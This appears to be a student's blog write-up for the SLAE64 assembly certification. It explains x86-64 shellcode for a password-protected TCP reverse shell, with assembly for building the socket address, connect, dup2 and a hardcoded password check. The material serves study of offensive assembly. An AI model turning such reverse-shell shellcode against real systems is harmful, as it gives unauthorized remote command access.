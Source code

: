 title: Password Protected Reverse Shell Shellcode
date: 2018-04-22
published: true 
summary: My solution to SLAE64 Exam Question 2
tags: shellcode, exploit, assembly

#Password Protected Reverse Shell Shellcode

This is my solution to the second exam question of the SLAE64 certification. This exercise was to write a password-protected tcp reverse shell. Again, Vivek (the instructor) provides a lot of this sample code in the class materials, so a lot of the instructions are reused from that code. This exercise mainly consisted of removing null bytes from the output and adding logic to password protect the shell.  

I basically reused most of my solution to exam question 1 for this exercise. Again, I used the remote port ```31337``` so we would really be hacking. I already bound the bind shell to localhost in the previous exercise, so I didn't really have to change the ```sockaddr``` structure initialization. Again, I used the xor value of ```0x23232323``` to avoid null bytes in that ```mov``` instruction. The code to create this structure on the stack is shown below:

        ; create sockaddr_in structure on stack
        ; bzero(&server.sin_zero, 8)
        push rdx
        ;zero sin_addr, sin_port, sin_family
        push rdx
        ; server.sin_addr.s_addr = inet_addr("127.0.0.1")
        ; this is same as we used in our localhost-only bind shell
        ; xor with constant for now to decode
        mov dword [rsp+4], 0x2223235c
        xor dword [rsp+4], 0x23232323
        ; server.sin_port = htons(31337)
        mov word [rsp+2], 0x697a
        ; server.sin_family = AF_INET
        ; just need to move byte since we already zeroed buffer
        mov byte [rsp], 0x2

The key difference in this exercise is that instead of a ```bind```, ```listen```, then ```accept``` syscall, we just have to make a single ```connect``` syscall. The code I used to do this is below:

        ; connect syscall
        ; connect(sock, (struct sockaddr *)&server, sockaddr_len)
        ; syscall number 42
        xor rax, rax
        mov al, 42
        mov rsi, rsp
        mov dl, 16
        syscall

        ; duplicate sockets
        ; dup2 (new, old)
        ; set client socket as stdout, stdin (fd 0,1)
        xor rax, rax
        mov al, 33
        xor rsi, rsi
        syscall

        xor rax, rax
        mov al, 33
        xor rsi, rsi
        mov sil, 1
        syscall

        ; password check code starts here

Since the rest of my solution was basically the same as problem 1, there weren't really additional nulls to eliminate from the raw output. I used the same password check routine - for completeness though it is included below:

        ; password check code starts here - 7 byte password + newline 
        read_password: ; read syscall - read onto stack ; allocate space on stack sub rsp, 8
                ; make syscall
                ; read(fd, *buf, count)
                xor rax, rax
                xor rdi, rdi
                mov rsi, rsp
                xor rdx, rdx
                mov dl, 8
                syscall

        ;compare password with mrtfsh1
        compare_password:
                mov rbx,0x0a3168736674726d
                mov rdi,[rsp]
                cmp rbx,rdi
                jne exit

        ; execve code starts here - mostly provided in course

After all this, my shellcode came out to 157 bytes, with no null characters. I was pretty happy with this: 

![bytecount_nullcount](/static/blog/2018/SLAE64/2/bytecount_nullcount.png)

I ran it using the same small C program as before. When I entered the correct passcode, the program allowed me to obtain a shell:

![correct](/static/blog/2018/SLAE64/2/reverse_shell.png)

When I entered an incorrect passcode, the program crashed as I didn't include any error handling:

![incorrect](/static/blog/2018/SLAE64/2/incorrect.png)

![incorrect2](/static/blog/2018/SLAE64/2/incorrect2.png)

All code referenced in this blog post is available at: <https://github.com/mrT-F/SLAE64/tree/master/2>

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification.* 

*Certification at: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>*

*Student ID: SLAE64 - 1546*